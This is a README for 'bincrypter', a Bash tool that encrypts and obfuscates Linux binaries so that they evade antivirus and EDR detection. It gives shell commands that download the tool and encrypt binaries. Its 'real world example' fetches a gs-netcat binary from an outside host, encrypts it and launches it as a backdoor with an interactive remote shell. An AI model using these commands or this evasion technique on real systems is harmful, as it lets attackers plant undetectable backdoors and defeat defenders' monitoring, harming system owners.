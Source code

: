 
## A Linux Binary Runtime Crypter - in BASH!

- Obfuscates & encrypts any ELF binary _or_ `#!`-script
- AV/EDR death: Morphing + different signature every time
- 100% in-memory. No temporary files.
- Not soiling the filesystem
- Can double or triple encrypt the same binary (or itself)
- Resulting binary is heavily obfuscated (`string` only shows garbage)
- Living off the Land: Only needs /bin/sh + perl + openssl
- Architecture agnostic: Works on x86_64, aarch64, arm6, mips, ...

![exmaple](https://github.com/user-attachments/assets/c8eff8e4-f879-4017-9015-6422e03dd6ac)

Download:
```shell
curl -SsfL https://github.com/hackerschoice/bincrypter/releases/latest/download/bincrypter -o bincrypter
chmod +x bincrypter
```

Example:
```shell
cp /usr/bin/id id
./bincrypter id
# Compressed: 68552 --> 24176 [35%]

./id
# uid=0(root) gid=0(root) groups=0(root)
```

Set a custom PASSWORD (optionally):
```shell
cp /usr/bin/id id
./bincrypter id foobar
# Compressed: 68552 --> 23860 [34%]

./id
# Enter Password: foobar
# uid=0(root) gid=0(root) groups=0(root)
```

Real world example (install a backdoor with a unique signature):
```shell
curl -SsfL "https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m)" | PASSWORD="foobar" ./bincrypter >gsnc
chmod +x gsnc
PASSWORD="foobar" GS_ARGS="-ilD -s ChangeMe" ./gsnc
```

---
Other great work:  
https://github.com/guitmz/ezuri  
https://github.com/upx/upx  

---
Join the fun: https://thc.org/ops  
bsky: [@hackerschoice.bsky.social](https://bsky.app/profile/hackerschoice.bsky.social)  
Mastodon: [@thc@infosec.exchange](https://infosec.exchange/@thc)





